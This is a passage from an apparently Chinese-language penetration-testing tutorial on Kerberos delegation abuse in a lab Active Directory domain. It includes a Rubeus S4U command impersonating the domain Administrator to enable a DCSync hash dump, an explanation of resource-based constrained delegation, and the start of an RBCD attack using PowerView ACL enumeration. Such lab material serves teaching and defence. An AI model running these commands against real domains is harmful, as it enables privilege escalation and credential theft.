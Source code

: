 ![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220331220531127.png)

（3)然后执行以下命令，使用 S4U2Self 扩展代表域管理员 Administrator 请求针对域控 LDAP 服务的票据，并将得到的票据传递到内存中，执行结果如下图所示。

```console
C:\Users\Marcus\Desktop> Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:LDAP/DC01.pentest.com /dc:DC01.pentest.com /ptt /ticket:<Base64EncodedTicket>
# Rubeus.exe s4u /impersonateuser:PENTEST\Administrator /altservice:LDAP/DC01.pentest.com /dc:DC01.pentest.com /ptt /ticket:<Base64EncodedTicket>
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/fBrHLyAg4WKncMx.png)

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220331220707910.png)

（4）再次尝试 DCSync 操作，此时可以成功导出域内用户哈希，如下图所示。

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220331190001021.png)
## Resource-Based Constrained Delegation

基于资源的约束委派（Resource-Based Constrained Delegation，RBCD）是在 Windows Server 2012 中新引入的功能，与传统的约束委派相比，它不再需要拥有 SeEnableDelegationPrivilege 特权的域管理员去设置相关属性，并且将设置委派的权限交换给了服务资源自身，即服务自己可以决定谁可以对我进行委派。

可以将基于资源的约束性委派理解为传统的约束性委派的反向过程。以 Service 1 和 Service 2 两个服务为例，传统的约束性委派需要在 Service 1 上设置 msDS-AllowedToDelegateTo 属性，以指定对 Service 2 上的哪一个服务进行委派。二在基于资源的约束性委派中，需要在 Service 2 上将 msDS-AllowedToActOnBehalfOfOtherIdentity 属性值设为 Service 1 的 SID，以允许 Service 1 对 Service 2 上的服务进行委派。

此外，在传统的约束性委派中，通过 S4u2self 申请到的 ST 票据一定是可转发的，如果不可转发，则后续的 S4U2Proxy 阶段将失败。但是在基于资源的约束性委派中，不可转发的 ST 票据仍然可以通过 S4U2Proxy 阶段对其他服务进行委派认证。因此，基于资源的约束性委派与传统的约束性委派在利用方法上大同小异。

### RBCD Attack

基于资源的约束性委派的关键在于 msDS-AllowedToActOnBehalfOfOtherIdentity 属性的设置，虽然基于资源的约束性委派的配置并不需要管理员权限，但是要向修改服务账户或机器账户的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性，用户必须拥有对其完全控制（GenericAll），或拥有 GenericWrite、WriteProperty、WriteDacl 等权限。

下面我对基于资源的约束性委派的一般攻击过程进行演示，测试环境如下，并假设已经获取到了 Marcus 用户的权限，并以 Marcus 用户登录了 WIN10-CLIENT1。

- 域：pentest.com
- 域控制器
  - 主机名：DC01
  - IP 地址：172.26.10.11
- 域成员主机
  - 主机名：WIN10-CLIENT1
  - IP 地址：172.26.10.21
- 域管理员用户：Administrator
- 普通用户：Marcus

（1）使用 [PowerView.ps1](https://github.com/shigophilo/tools/blob/master/PowerView.ps1) 可以枚举指定用户 Marcus 对机器账户 DC01 的 ACE，发现该用户对 DC01 完全控制，如下图所示。

```powershell
# 导入模块
Import-Module .\PowerView.ps1
# 获取 Marcus 用户的 SID
Get-DomainUser -Identity Marcus -Properties objectsid
# 枚举 Marcus 用户对 DC01 的 ACE
Get-DomainObjectAcl -Identity DC01 | ?{$_.SecurityIdentifier -match "S-1-5-21-1536491439-3234161155-253608391-1106"}
```
